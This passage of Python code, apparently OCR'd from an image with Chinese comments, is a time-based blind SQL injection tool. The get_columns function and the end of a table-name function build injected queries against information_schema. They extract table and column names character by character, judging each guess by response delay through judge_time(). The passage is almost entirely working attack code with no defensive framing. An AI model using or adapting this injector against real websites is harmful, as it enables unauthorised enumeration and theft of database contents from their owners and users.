         # 获取值
        tables_name = ''
        for i in range(1, length + 1):
            print(f'\r正在获取第{i}个值：{tables_name}', end='')
            for ascii_num in range(39, 123):
                payload = url + payload_header + \
                          f"(select ascii(mid(group_concat(table_name),{i},1)) from information_schema.tables " \
                          f"where table_schema=database())={ascii_num}" + payload_end
                if judge_time(payload):
                    tables_name += chr(ascii_num)
        tables_list = tables_name.split(',')
        print(f'\n获取所有表名结束：', end='')
        return tables_list
    
    
    def get_columns(table_name, url, payload_header, payload_end):
        # 获取长度
        length = 1000
        for L in range(1, 10000):
            payload = url + payload_header + \
                      f"length((select group_concat(column_name) from information_schema.columns " \
                      f"where table_schema=DATABASE() AND " \
                      f"""table_name=0x{str(binascii.b2a_hex(table_name.encode(r"utf-8"))).split("'")[1]}))={L}""" \
                      + payload_end
            print(f'\r正在获取{table_name}表所有字段名拼接后长度：{L}', end='')
            if judge_time(payload):
                print(f'\n{table_name}表所有字段名拼接后长度为：{L}', end='')
                length = L
                break
            elif L == 999:
                print(f'\r无法获取当{table_name}表所有字段名拼接后长度：{L}', end='')
        print()
    
        # 获取值
        columns_name = ''
        for i in range(1, length + 1):
            print(f'\r正在获取第{i}个值：{columns_name}', end='')
            for ascii_num in range(39, 123):
                payload = url + payload_header + \
                          f"(select ascii(mid(group_concat(column_name),{i},1)) from information_schema.columns " \
                          f"where table_schema=DATABASE() AND table_name=" \
                          f"""0x{str(binascii.b2a_hex(table_name.encode(r"utf-8"))).split("'")[1]})={ascii_num}""" \
                          + payload_end
                if judge_time(payload):
                    columns_name += chr(ascii_num)
        columns_list = columns_name.split(',')
        print(f'\n获取{table_name}表的所有字段名结束：', end='')
        return columns_list
    